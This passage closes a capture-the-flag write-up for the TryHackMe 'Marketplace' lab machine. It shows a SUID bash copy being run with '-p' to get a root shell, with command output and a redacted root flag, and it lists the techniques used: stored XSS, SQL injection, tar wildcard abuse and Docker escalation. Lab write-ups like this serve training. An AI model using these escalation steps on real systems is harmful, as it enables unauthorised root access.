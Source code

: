 3. Exit current container, and spawn a root shell via `-p` option in bash. This will spawn a SUID privilege bash:

```
root@82c36fdf20ef:/# exit

michael@the-marketplace:/opt/backups$ /opt/backups/root_bash -p

root_bash-4.4# whoami;hostname;id;ip a
root
the-marketplace
uid=1002(michael) gid=1002(michael) euid=0(root) egid=0(root) groups=0(root),999(docker),1002(michael)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:bf:a1:53:5e:5f brd ff:ff:ff:ff:ff:ff
    inet 10.10.102.127/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 1807sec preferred_lft 1807sec
    inet6 fe80::bf:a1ff:fe53:5e5f/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

We're root! :D

# Rooted

**root.txt:**
```
root_bash-4.4# cat /root/root.txt
THM{Redacted}
```

# Conclusion

What we've learned:

1. Stored Cross-Site Script(XSS)
2. Error-Based & Union-Based SQL Injection
3. Privilege Escalation via Abusing Wildcard in `tar`
4. Privilege Escalation via Spawning a Root Shell In a Docker Container